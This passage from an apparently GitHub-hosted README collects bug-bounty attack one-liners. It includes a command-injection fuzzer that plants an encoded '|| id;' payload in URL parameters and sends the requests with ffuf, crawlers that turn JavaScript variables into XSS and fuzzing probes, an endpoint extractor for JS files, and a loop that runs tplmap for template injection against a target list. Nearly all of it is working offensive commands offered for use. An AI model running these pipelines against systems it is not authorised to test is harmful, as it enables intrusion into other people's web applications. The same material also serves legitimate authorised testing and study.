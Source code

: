 ```
subfinder -d target.com | (gau || hakrawler || waybackurls || katana) | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt; ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
```

---

## JS Files:

[](https://github.com/0xPugal/One-Liners#js-files)

### Find JS Files:

[](https://github.com/0xPugal/One-Liners#find-js-files)

```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep -iE '.js'|grep -iEv '(.jsp|.json)' | anew js.txt
```

```
subfinder -d target.com | (gau || hakrawler || waybackurls || katana) | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"
```

### Hidden Params in JS:

[](https://github.com/0xPugal/One-Liners#hidden-params-in-js)

```
cat subs.txt | (gau || hakrawler || waybackurls || katana) | sort -u | httpx -silent -threads 100 | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done
```

### Extract sensitive end-point in JS:

[](https://github.com/0xPugal/One-Liners#extract-sensitive-end-point-in-js)

```
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

---

### SSTI:

[](https://github.com/0xPugal/One-Liners#tpssti)

```
for url in $(cat targets.txt); do python3 tplmap.py -u $url; print $url; done
```

---
